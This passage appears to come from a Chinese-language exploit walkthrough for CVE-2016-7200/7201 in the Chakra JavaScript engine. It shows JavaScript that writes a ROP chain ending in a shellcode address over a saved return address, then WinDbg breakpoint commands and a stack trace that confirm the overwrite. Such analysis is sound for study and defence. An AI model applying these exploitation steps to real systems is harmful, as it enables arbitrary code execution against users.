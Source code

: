 ```JavaScript
    shcodeAddr
];
for (var i = 0; i < rop.length; ++i)
{
    Write64(retPtrAddr.add(i * 8), rop[i]);
}

```

注意：因为每一次都是重新启动调试，所以，地址会有所变动，不要疑惑这些事。
这里，因为我们知道RetPtrAddr会被ROP entry覆写，所以，我们对返回地址设置写断点，看看什么地方会触发这个断点。

![](images/CVE-2016-7200_CVE-2016-7201/7_return_ptr_address.png)
![](images/CVE-2016-7200_CVE-2016-7201/8_shellcode_address.png)

```
0:028> ba w4 14d53fcc88 ".printf \"overwrite ret address\\n\""
0:028> g
overwrite ret address
chakra!Js::DataView::EntrySetUint32+0x135:
00007ff9`6b4dc4b5 488b03          mov     rax,qword ptr [rbx] ds:00000126`02a2d200=0000012605170000
```
<pre>
<code>
0:012> kn
 # Child-SP          RetAddr           Call Site
00 00000014`d53fb9a0 00007ff9`6b261393 chakra!Js::DataView::EntrySetUint32+0x135
01 00000014`d53fba10 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
02 00000014`d53fba80 00007ff9`6b12cfb0 chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
03 00000014`d53fbae0 00007ff9`6b261393 chakra!Js::JavascriptFunction::EntryCall+0xf0
04 00000014`d53fbb30 00007ff9`6b12ef6d chakra!amd64_CallFunction+0x93
05 00000014`d53fbba0 00007ff9`6b132797 chakra!Js::InterpreterStackFrame::OP_CallCommon&lt;Js::OpLayoutDynamicProfile&lt;Js::OpLayoutT_CallIWithICIndex&lt;Js::LayoutSizePolicy&lt;0> > > >+0x15d
06 00000014`d53fbc40 00007ff9`6b136842 chakra!Js::InterpreterStackFrame::OP_ProfiledCallIWithICIndex&lt;Js::OpLayoutT_CallIWithICIndex&lt;Js::LayoutSizePolicy&lt;0> > >+0xa7
07 00000014`d53fbcc0 00007ff9`6b134aa2 chakra!Js::InterpreterStackFrame::ProcessProfiled+0x132
08 00000014`d53fbd50 00007ff9`6b138b5e chakra!Js::InterpreterStackFrame::Process+0x142
09 00000014`d53fbdb0 00007ff9`6b13a265 chakra!Js::InterpreterStackFrame::InterpreterHelper+0x48e
0a 00000014`d53fc120 00000126`05420e9a chakra!Js::InterpreterStackFrame::InterpreterThunk+0x55
0b 00000014`d53fc170 00007ff9`6b261393 0x00000126`05420e9a
0c 00000014`d53fc1a0 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
0d 00000014`d53fc200 00007ff9`6b130490 chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
0e 00000014`d53fc260 00007ff9`6b134f35 chakra!Js::InterpreterStackFrame::OP_CallI&lt;Js::OpLayoutDynamicProfile&lt;Js::OpLayoutT_CallI&lt;Js::LayoutSizePolicy&lt;0> > > >+0x110
0f 00000014`d53fc2b0 00007ff9`6b134bb0 chakra!Js::InterpreterStackFrame::ProcessUnprofiled+0x315
10 00000014`d53fc340 00007ff9`6b138b5e chakra!Js::InterpreterStackFrame::Process+0x250
11 00000014`d53fc3a0 00007ff9`6b13a265 chakra!Js::InterpreterStackFrame::InterpreterHelper+0x48e
12 00000014`d53fc8d0 00000126`05420f92 chakra!Js::InterpreterStackFrame::InterpreterThunk+0x55
13 00000014`d53fc920 00007ff9`6b261393 0x00000126`05420f92
14 00000014`d53fc950 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
15 00000014`d53fc9a0 00007ff9`6b19c2ec chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
16 00000014`d53fca00 00007ff9`6b19b8b6 chakra!Js::JavascriptFunction::CallRootFunctionInternal+0x104